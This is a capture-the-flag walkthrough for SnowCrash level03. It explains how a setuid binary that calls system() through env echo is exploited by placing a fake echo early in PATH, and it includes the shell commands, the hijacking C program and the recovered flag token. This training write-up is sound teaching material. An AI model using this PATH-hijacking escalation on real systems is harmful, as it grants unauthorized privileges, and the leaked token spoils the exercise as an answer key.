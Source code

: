 # Level03

## Walkthrough

First, let's check the content of the home directory.

```bash
level03@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level03 level03  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level03 level03  220 Apr  3  2012 .bash_logout
-r-x------ 1 level03 level03 3518 Aug 30  2015 .bashrc
-r-x------ 1 level03 level03  675 Apr  3  2012 .profile
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
level03@SnowCrash:~$ file level03 
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

The `s` on `level03` permissions indicates the [setuid bit](https://en.wikipedia.org/wiki/Setuid). This means that the file will run with the privileges of its owner instead of the user executing it. In our case, the owner is `flag03`.

To analyze the file, we transfer it to our local machine using [SCP](https://en.wikipedia.org/wiki/Secure_copy_protocol).

```bash
host:~$ scp -P 4242 level02@localhost:level03 level03
```

We decompile the binary using a decompiler explorer like [dogbolt](http://dogbolt.org).

[Link to the decompiled output](https://dogbolt.org/?id=0a105cdf-9237-4e31-9773-e9a12740c81a)

By checking the main function, we can figure out that the program:
- calls `getegid()` and `geteuid()` to retrieve the effective group ID and user ID
- sets them with `setresgid()` and `setresuid()` (in our case: `flag03`)
- executes a shell command (`echo`) with `system()`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
	__gid_t v4; // [esp+18h] [ebp-8h]
	__uid_t v5; // [esp+1Ch] [ebp-4h]

	v4 = getegid();
	v5 = geteuid();
	setresgid(v4, v4, v4);
	setresuid(v5, v5, v5);
	return system("/usr/bin/env echo Exploit me");
}
```

How can we exploit this program? By running the `getflag` command, with the `flag03` privileges, inside the `system()` call.  
Although we cannot modify the arguments passed to the system call directly, we can exploit the fact that `echo` is a built-in command and alter it’s behavior to execute the `getflag` command instead.

We then have to create our own version of `echo` in the `/tmp` directory and add it to the `$PATH` so that it will be invoked instead of the original one. After that, we just run the script and voila, it executes the `getflag` command as `flag03`.

```bash
level03@SnowCrash:~$ cd /tmp && mkdir echo
level03@SnowCrash:/tmp$ cd echo && touch echo.c
level03@SnowCrash:/tmp/echo$ vim echo.c
# paste the c program from below
level03@SnowCrash:/tmp/echo$ gcc echo.c -o echo
level03@SnowCrash:/tmp/echo$ ls -la
total 12
drwxrwxr-x 2 level03 level03   80 Feb  8 19:51 .
d-wx-wx-wx 6 root    root     120 Feb  8 19:50 ..
-rwxrwxr-x 1 level03 level03 7160 Feb  8 19:51 echo
-rw-rw-r-- 1 level03 level03   84 Feb  8 19:49 echo.c
level03@SnowCrash:/tmp/echo$ export PATH=/tmp/echo:$PATH
level03@SnowCrash:/tmp/echo$ ~/level03 
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

```c
// echo.c
#include <stdlib.h>

int main(void) {
	system("/usr/bin/env getflag");
	return 1;
}
```
## Ressources

- [Exploit system() call in C](https://stackoverflow.com/questions/39939853/exploit-system-call-in-c)
- [How to exploit system() call in C](https://www.go4expert.com/articles/exploit-c-t24920)
